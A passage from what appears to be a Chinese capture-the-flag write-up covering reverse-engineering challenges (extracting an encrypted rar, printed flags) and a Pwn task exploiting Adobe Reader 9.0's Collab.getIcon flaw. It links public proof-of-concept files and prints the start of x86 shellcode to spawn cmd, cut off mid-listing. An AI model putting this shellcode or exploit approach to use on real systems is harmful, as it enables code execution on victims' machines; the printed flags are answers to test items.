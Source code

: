 ![enter image description here](http://drops.javaweb.org/uploads/images/30ad9c5f70acf0a8c9cd4453b8f2567ad7832f7b.jpg)

循环结束刚好是rar文件的文件尾。将0x41B1F6-0x41B6C3部分复制出来，得到一个rar文件，打开后里面有个key.png，但是rar加了密。

![enter image description here](http://drops.javaweb.org/uploads/images/b328d54eac41b4099453c1789a5de29b6dabd0cc.jpg)

拿出最开始得到的密码：我不是传说中的密码，得到Key：

```
Key: C6ua3izS2ze9Wetx

```

Flag：`C6ua3izS2ze9Wetx`

退避三舍
----

* * *

这个我一直没搞定程序里的反调试，用了52Pojie的破解版OD也不行。F9一下，就变成终止了，期待大神指导。Key是大神提供的：

![enter image description here](http://drops.javaweb.org/uploads/images/93f1aa19ae7cbf3e3146606fa989215dd307309a.jpg)

Flag：`MD5_is_easy+C9841-4FF72-14430-D82EF-B6AC2` 

0x04 Pwn楚王问鼎
=====

Pwn部分我确实不会，之前也没弄过，唯一弄出的一个代码什么的都是别人的。

镇压叛乱
----

* * *

百度搜索Adobe Reader 9.0漏洞，发现下面2个页面，

【原创】CVE-2009-0027调试笔记： http://bbs.pediy.com/showthread.php?t=98139

【原创】完整剖析Acrobat Reader - Collab getIcon universal exploiter之路

http://hi.baidu.com/snowdbg/item/e788c12aeffa49866e2cc39b 其中还提供了POC文件，该POC中嵌入了能够执行的Javascript代码，通过doc.Collab.getIcon函数触发漏洞，如图

![enter image description here](http://drops.javaweb.org/uploads/images/f5f07fab02e12bb0137c641ddcabc6792956b937.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/7ddeaf5b5d9c968edf9340de679664cf8bfb58f0.jpg)

下面只需要将弹出msgbox的shellcode修改为弹出cmd命令行的shellcode，继续搜索cmd shellcode， shellcode启动CMD http://blog.sina.com.cn/s/blog_7cb57750010137y4.html 将其中的shellcode

```
char shellcode[]=
//打开CMD的shellcode
"\x55"                   //push ebp
"\x8B\xEC"               //mov ebp, esp
"\x33\xC0"               //xor eax, eax
"\x50"                   //push eax
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xF5\x6D"       //mov byte ptr[ebp-0Bh], 6Dh
"\xC6\x45\xF6\x73"       //mov byte ptr[ebp-0Ah], 73h
"\xC6\x45\xF7\x76"       //mov byte ptr[ebp-09h], 76h
"\xC6\x45\xF8\x63"       //mov byte ptr[ebp-08h], 63h
"\xC6\x45\xF9\x72"       //mov byte ptr[ebp-07h], 72h
"\xC6\x45\xFA\x74"       //mov byte ptr[ebp-06h], 74h
"\xC6\x45\xFB\x2E"       //mov byte ptr[ebp-05h], 2Eh
"\xC6\x45\xFC\x64"       //mov byte ptr[ebp-04h], 64h
"\xC6\x45\xFD\x6C"       //mov byte ptr[ebp-03h], 6Ch
"\xC6\x45\xFE\x6C"       //mov byte ptr[ebp-02h], 6Ch
```